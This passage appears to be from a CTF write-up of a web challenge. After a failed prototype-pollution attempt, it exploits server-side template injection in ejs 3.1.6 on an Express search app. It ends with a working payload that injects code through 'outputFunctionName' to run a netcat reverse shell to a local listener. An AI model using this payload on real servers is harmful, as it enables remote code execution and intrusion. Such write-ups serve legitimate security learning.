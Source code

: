 ```js
                notFound: false,
                ...req.body
            })
            return
        }
    }

    res.render('search', { notFound: true })
})

const server = app.listen(0, () => console.log(server.address().port))
```

![index](./assets/images/web/duck/index.png)

* According to the source code, the app functions as a search engine for breeds, and if the breed matches an entry from the list, it provides a summary.

* By examining the .ejs files, we can see that the breed and summary parameters are simply passed into the page and rendered. This led me to initially consider SSTI (Server-Side Template Injection). I first attempted to modify the `notFound` variable to false through prototype pollution in the `express@4.18.2` package, since the breed only gets rendered when `notFound` is set to `false`. However, this approach failed.

* Another intriguing aspect is the `ejs@3.1.6` package. It is vulnerable to SSTI, and here is a POC available online: [POC](https://eslam.io/posts/ejs-server-side-template-injection-rce/)


```js
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
```
